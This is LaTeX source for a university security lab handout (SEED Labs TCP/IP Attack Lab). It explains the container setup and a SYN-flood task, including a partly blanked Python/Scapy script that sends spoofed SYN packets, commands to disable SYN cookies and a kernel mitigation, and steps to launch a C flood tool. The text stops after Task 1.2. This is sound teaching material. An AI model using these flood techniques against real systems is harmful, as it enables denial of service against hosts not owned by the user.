%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\newcommand{\commonfolder}{../../common-files}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website. }

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend too much on our SEED VM. You can do this lab
using other VMs or physical machines. }







\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\newcommand{\telnet} {\texttt{telnet}\xspace}
\newcommand{\tcpFigs}{./Figs}

\lhead{\bfseries SEED Labs -- TCP/IP Attack Lab}

\begin{document}

\newcounter{task}
\setcounter{task}{1}
\newcommand{\mytask} {\bf {\noindent \arabic{task}} \addtocounter{task}{1} \,}



\begin{center}
{\LARGE TCP/IP Attack Lab}
\end{center}

\seedlabcopyright{2018 - 2020}



% *******************************************
% SECTION
% ******************************************* 
\section{Overview}


The learning objective of this lab is for students to gain first-hand
experience on vulnerabilities, as well as on attacks against these
vulnerabilities. Wise people learn from mistakes. In security education, we
study mistakes that lead to software vulnerabilities. Studying mistakes
from the past not only help students understand why systems are vulnerable,
why a seemly-benign mistake can turn into a disaster, and why many
security mechanisms are needed. More importantly, it also helps students
learn the common patterns of vulnerabilities, so they can avoid making
similar mistakes in the future. Moreover, using vulnerabilities as case
studies, students can learn the principles of secure design, secure
programming, and security testing.

The vulnerabilities in the TCP/IP protocols represent a special genre of
vulnerabilities in protocol designs and implementations; they provide an
invaluable lesson as to why security should be designed in from the
beginning, rather than being added as an afterthought. Moreover, studying
these vulnerabilities help students understand the challenges of network
security and why many network security measures are needed.
In this lab, students will conduct several attacks on TCP.
This lab covers the following topics:

\begin{itemize}[noitemsep]
\item The TCP protocol
\item TCP SYN flood attack, and SYN cookies 
\item TCP reset attack
\item TCP session hijacking attack
\item Reverse shell 
\item A special type of TCP attack, the Mitnick attack, is covered 
in a separate lab. 
\end{itemize}


\paragraph{Readings and videos.}
Detailed coverage of the TCP attacks can be found in the following:

\begin{itemize}
\item Chapter 16 of the SEED Book, \seedbook
\item Section 6 of the SEED Lecture, \seedisvideo
\end{itemize}


\paragraph{Lab environment.} \seedenvironmentC



% *******************************************
% SECTION
% ******************************************* 
\section{Lab Environment}


In this lab, we need to have at least three machines. We use 
containers to set up the lab environment. Figure~\ref{tcp:fig:labsetup}
depicts the lab setup. 
We will use the attacker container to launch attacks, while using the other 
three containers as the victim and user machines. 
We assume all these machines are on the same LAN. 
Students can also use three virtual machines for this lab, 
but it will be much more convenient to use containers. 


\begin{figure}[htb]
\begin{center}

\includegraphics[width=0.8\textwidth]{\commonfolder/Figs/OneLan.pdf}
\end{center}
\caption{Lab environment setup}
\label{tcp:fig:labsetup}
\end{figure}
 

%\begin{lstlisting}[backgroundcolor=]
%  +------------+      +------------+  +------------+  +------------+
%  |  Attacker  |      |   Victim   |  |    User 1  |  |   User 2   |
%  |  10.9.0.1  |      |  10.9.0.5  |  |  10.9.0.6  |  |  10.9.0.7  |
%  +----+-------+      +------+-----+  +------+-----+  +------+-----+
%       |                     | eth0          | eth0          | eth0
%       |                     |               |               |
%-------+---------------------+---------------+---------------+-------
%           Network  10.9.0.0/24
%
%\end{lstlisting}
 

% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Container Setup and Commands}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Please download the
\texttt{Labsetup.zip} file to your VM from the lab's website,
unzip it, enter the \texttt{Labsetup} folder, and 
use the \texttt{docker-compose.yml} file to 
set up the lab environment. Detailed explanation
of the content in this file and all the involved 
\texttt{Dockerfile} can be found from the 
user manual, which is linked to the website of this lab.
If this is the first time you set up a SEED lab environment
using containers, it is very important that you read 
the user manual. 

In the following, we list some of the commonly
used commands related to Docker and Compose. 
Since we are going to use 
these commands very frequently, we have created aliases for them
in the \texttt{.bashrc} file (in our provided SEEDUbuntu 20.04 VM).


\begin{lstlisting}
$ docker-compose build  # Build the container image
$ docker-compose up     # Start the container
$ docker-compose down   # Shut down the container

// Aliases for the Compose commands above
$ dcbuild       # Alias for: docker-compose build
$ dcup          # Alias for: docker-compose up
$ dcdown        # Alias for: docker-compose down
\end{lstlisting}


All the containers will be running in the background. To run
commands on a container, we often need to get a shell on
that container. We first need to use the \texttt{"docker ps"}  
command to find out the ID of the container, and then
use \texttt{"docker exec"} to start a shell on that 
container. We have created aliases for them in
the \texttt{.bashrc} file.

\begin{lstlisting}
$ dockps        # Alias for: docker ps --format "{{.ID}}  {{.Names}}" 
$ docksh <id>   # Alias for: docker exec -it <id> /bin/bash

# The following example shows how to get a shell inside hostC
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#  

# Note: If a docker command requires a container ID, you do not need to 
#       type the entire ID string. Typing the first few characters will 
#       be sufficient, as long as they are unique among all the containers. 
\end{lstlisting}


If you encounter problems when setting up the lab environment, 
please read the ``Common Problems'' section of the manual
for potential solutions.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

 
% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{About the Attacker Container}

In this lab, we can either use the VM or the attacker container
as the attacker machine. If you look at the Docker Compose file, you will
see that the attacker container is configured differently from the other
containers.


\begin{itemize}
\item \textit{Shared folder.} When we use the attacker container
to launch attacks, we need to put the attacking code inside
the attacker container.
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Code editing is more convenient inside the VM than in a container, 
because we can use our favorite editor to write code. 
In order for the VM and a container to share files, 
we have created a shared folder between VM and the container
using the Docker \texttt{volumes}.
If you look at the Docker Compose file, you will find out that
we have added the following entry to some of the containers.
It indicates mounting the \texttt{./volumes} folder on the host
machine (i.e., the VM) to the \texttt{/volumes} folder inside the container.
We will write our code in the \texttt{./volumes} folder (on the VM), so they
can be used inside the containers.

\begin{lstlisting}
volumes:
       - ./volumes:/volumes
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\item \textit{Host mode.}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
In this lab, the attacker needs to be able to sniff packets,
but running sniffer programs inside a container has problems, because
a container is effectively attached to a virtual switch, 
so it can only see its own traffic, and it is never going to see 
the packets among other containers. To solve this problem,
we use the \texttt{host} mode for the attacker container. This
allows the attacker container to see all the traffics. The following
entry used on the attacker container:

\begin{lstlisting}
network_mode: host
\end{lstlisting}

When a container is in the \texttt{host} mode,  it sees
all the host's network interfaces, and it even has the same
IP addresses as the host. Basically, it is put in the
same network namespace as the host VM. However, the container
is still a separate machine, because its other namespaces are
still different from the host.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\end{itemize}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
\paragraph{Getting the network interface name.}
When we use the provided Compose file to create
containers for this lab, a new network is created
to connect the VM and the containers. The
IP prefix for this network is \texttt{10.9.0.0/24},
which is specified in the \texttt{docker-compose.yml}
file. The IP address assigned to our VM is
\texttt{10.9.0.1}. We need to find the name of
the corresponding network interface on our VM, because we
need to use it in our programs.
The interface name is the concatenation of \texttt{br-}
and the ID of the network created by Docker.
When we use \texttt{ifconfig} to list network interfaces,
we will see quite a few. Look for the IP address
\texttt{10.9.0.1}.


\begin{lstlisting}
$ ifconfig
(*@\textbf{br-c93733e9f913}@*): flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet (*@\textbf{10.9.0.1}@*)  netmask 255.255.255.0  broadcast 10.9.0.255
        ...
\end{lstlisting}


Another way to get the interface name is to use the \texttt{"docker network"} command to
find out the network ID ourselves (the name of the network is \texttt{seed-net}:

\begin{lstlisting}
$ docker network ls
NETWORK ID          NAME                DRIVER              SCOPE
a82477ae4e6b        bridge              bridge              local
e99b370eb525        host                host                local
df62c6635eae        none                null                local
(*@\textbf{c93733e9f913}@*)        seed-net            bridge              local
\end{lstlisting}



%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{The seed Account} 

In this lab, we need to telnet from one container to another. 
We have already created an account called \texttt{seed} inside all
the containers.
Its password is \texttt{dees}. You can telnet into this account.  



% *******************************************
% SECTION
% *******************************************
\section{Task 1: SYN Flooding Attack}


\begin{figure}[htb]
  \begin{center}
    
\includegraphics[width=0.9\textwidth]{\tcpFigs/TCP_SYN_Flooding.pdf}
  \end{center}
  \caption{SYN Flooding Attack}
  \label{tcp:fig:synflooding}
\end{figure}
 


SYN flood is a form of DoS attack in which attackers send many SYN
requests to a victim's TCP port, but the attackers have no intention 
to finish the 3-way handshake procedure. Attackers either use spoofed 
IP address or do not continue the procedure. 
Through this attack, attackers can flood the victim's queue that is 
used for half-opened connections, i.e. the connections that has finished SYN, SYN-ACK, 
but has not yet gotten a final ACK back. When this queue is full, 
the victim cannot take any more connection. Figure~\ref{tcp:fig:synflooding}
illustrates the attack.

The size of the queue has a system-wide setting.  In Ubuntu OSes, we can check the
setting using the following command. The OS sets this value based on
the amount of the memory the system has: the more memory the machine has, 
the larger this value will be.

\begin{lstlisting}
# sysctl net.ipv4.tcp_max_syn_backlog
net.ipv4.tcp_max_syn_backlog = 128
\end{lstlisting}

We can use command \texttt{"netstat -nat"} to check the usage of the queue, 
i.e., the number of half-opened connection associated with a listening port. 
The state for such connections is \texttt {SYN-RECV}. If the 3-way handshake
is finished, the state of the connections will be {\tt ESTABLISHED}. 

\paragraph{SYN Cookie Countermeasure:}
By default, Ubuntu's SYN flooding countermeasure is turned on. This 
mechanism is called SYN cookie. It will kick in if the machine
detects that it is under the SYN flooding attack. In our 
victim server container, we have already turned it off (see the 
\texttt{sysctls} entry in the \texttt{docker-compose.yml} file).  
We can use the following \texttt{sysctl} command to turn it on and off:

\begin{lstlisting}
# sysctl -a | grep syncookies     (Display the SYN cookie flag) 
# sysctl -w net.ipv4.tcp_syncookies=0 (turn off SYN cookie)
# sysctl -w net.ipv4.tcp_syncookies=1 (turn on  SYN cookie)
\end{lstlisting}

To be able to use \texttt{sysctl} to change the system variables 
inside a container, the container needs to be 
configured with the \texttt{"privileged: true"} entry (which is the 
case for our victim server). 
Without this setting, if we run the above command,
we will see the following error message. The container
is not given the privilege to make the change. 

\begin{lstlisting}
# sysctl -w net.ipv4.tcp_syncookies=1
sysctl: setting key "net.ipv4.tcp_syncookies": Read-only file system
\end{lstlisting}





% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Task 1.1: Launching the Attack Using Python}

We provide a Python program called \texttt{synflood.py}, but
we have intentionally left out some essential data in the code. 
This code sends out spoofed TCP SYN packets, with 
randomly generated source IP address, source port, and sequence number.
Students should finish the code and then use it to 
launch the attack on the target machine:

\begin{lstlisting}
#!/bin/env python3
  
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

ip  = IP(dst="*.*.*.*")
tcp = TCP(dport=**, flags='S')
pkt = ip/tcp

while True:
    pkt[IP].src    = str(IPv4Address(getrandbits(32)))  # source iP
    pkt[TCP].sport = getrandbits(16)     # source port
    pkt[TCP].seq   = getrandbits(32)     # sequence number
    send(pkt, verbose = 0)
\end{lstlisting}

Let the attack run for at least one minute, then try to telnet 
into the victim machine, and see whether you can succeed. Very likely that
your attack will fail. Multiple issues can contribute to the failure 
of the attack. They are listed in the following with guidelines 
on how to address them. 

\begin{itemize}
  \item \textbf{TCP cache issue:} See Note A below.

  \item \textbf{VirtualBox issue:} If you are doing the attack from one VM against another VM, 
    instead of using our container setup, please see Note B below. This is not an issue
    if you are doing the attack using the container setup.

  \item \textbf{TCP retransmission issue:} 
    After sending out the SYN+ACK packet, the victim machine will wait for 
    the ACK packet. If it does not come in time, TCP will retransmit the SYN+ACK packet. 
    How many times it will retransmit depends on the following kernel parameters (by default,
    its value is 5):
    
\begin{lstlisting}
# sysctl net.ipv4.tcp_synack_retries
net.ipv4.tcp_synack_retries = 5
\end{lstlisting}

    After these 5 retransmissions, TCP will remove the corresponding item
    from the half-open connection queue. Every time when an item is removed,
    a slot becomes open. Your attack packets and the legitimate 
    telnet connection request packets will fight for this opening.
    Our Python program may not be fast enough, and can thus lose to 
    the legitimate telnet packet. To win the competition, we can run multiple instances
    of the attack program in parallel. Please try this approach and 
    see whether the success rate can be improved. How many instances 
    should you run to achieve a reasonable success rate? 

  \item \textbf{The size of the queue:}  
    How many half-open connections can be stored in the queue
    can affect the success rate of the attack. 
    The size of the queue be adjusted using the following command:

\begin{lstlisting}
# sysctl -w net.ipv4.tcp_max_syn_backlog=80
\end{lstlisting}
     
    While the attack is ongoing, you can run one of the following commands 
    on the victim container to see
    how many items are in the queue. It should be noted that one fourth of the 
    space in the queue is reserved for ``proven destinations'' (see Note A below), 
    so if we set the size to 80, its actual capacity is about 60. 

\begin{lstlisting}
$ netstat -tna | grep SYN_RECV | wc -l
$ ss -n state syn-recv sport = :23 | wc -l
\end{lstlisting}

    Please reduce the size of the half-open connection queue on the 
    victim server, and see whether your success rate can improve. 
\end{itemize}


\paragraph{Note A: A kernel mitigation mechanism.} On Ubuntu 20.04, if machine X
has never made a TCP connection to the victim machine, when the SYN flooding 
attack is launched, machine X will not be able to telnet into the 
victim machine. However, if before the attack, machine X
has already made a telnet (or TCP connection) to the victim machine, then X 
seems to be ``immune'' to the SYN flooding attack, and can
successfully telnet to the victim machine during the attack. 
It seems that the victim machine remembers past successful 
connections, and uses this memory when establishing
future connections with the ``returning'' client. 
This behavior does not exist in Ubuntu 16.04 and earlier versions.

This is due to a mitigation of the kernel: 
TCP reserves one fourth of the backlog queue for ``proven destinations'' 
if SYN Cookies are disabled. After making a TCP connection
from \texttt{10.9.0.6} to the server \texttt{10.9.0.5}, we can 
see that the IP address \texttt{10.9.0.6} is remembered (cached)
by the server, so they will be using the reserved slots
when connections come from them, and will thus not be 
affected by the SYN flooding attack.
To remove the effect of this mitigation method, we can 
run the \texttt{"ip tcp\_metrics flush"} command on
the server. 

\begin{lstlisting}
# ip tcp_metrics show
10.9.0.6 age 140.552sec cwnd 10 rtt 79us rttvar 40us source 10.9.0.5

# ip tcp_metrics flush
\end{lstlisting}


\paragraph{Note B: RST packets.} 
If you are doing this task using two VMs, i.e., launching the attack from one VM
against another VM, instead of attacking a container, from the Wireshark,
you will notice many RST packets (reset). Initially, we thought that 
the packets were generated from the recipient of the SYN+ACK packet, 
but it turns out they are generated by the 
NAT server in our setup. 

Any traffic going out of the VM in our lab setup will go through the NAT server
provided by VirtualBox. For TCP, NAT creates address translation 
entries based on the SYN packet. 
In our attack, the SYN packets generated 
by the attacker did not go through the NAT (both attacker and victims are behind the 
NAT), so no NAT entry was created. When the victim sends SYN+ACK packet back to the
source IP (which is randomly generated by the attacker), this packet will 
go out through the NAT, but because there is no prior NAT entry
for this TCP connection, NAT does not know what to do,
so it sends a TCP RST packet back to the victim. 

RST packets cause the victim to remove the data from the half-open connection
queue. Therefore, while we are trying fill up this queue with the attack, 
VirtualBox helps the victim to remove our records from the queue. 
It becomes a competition between our code and the VirtualBox. 


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Task 1.2: Launch the Attack Using C} 

Other than the TCP cache issue, all the issues mentioned in Task 1.1 
can be resolved if we can send spoofed SYN packets fast enough. We
can achieve that using C. We provide a C program called \texttt{synflood.c}
in the lab setup. Please compile
the program on the VM and then launch the attack on the target machine.

\begin{lstlisting}
// Compile the code on the host VM
$ gcc -o synflood synflood.c

// Launch the attack from the attacker container
# synflood 10.9.0.5 23
\end{lstlisting}


Before launching the attack, please restore the queue size to its 
original value. Please compare the results with the one 
using the Python program, and explain the reason behind the difference. 

 



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
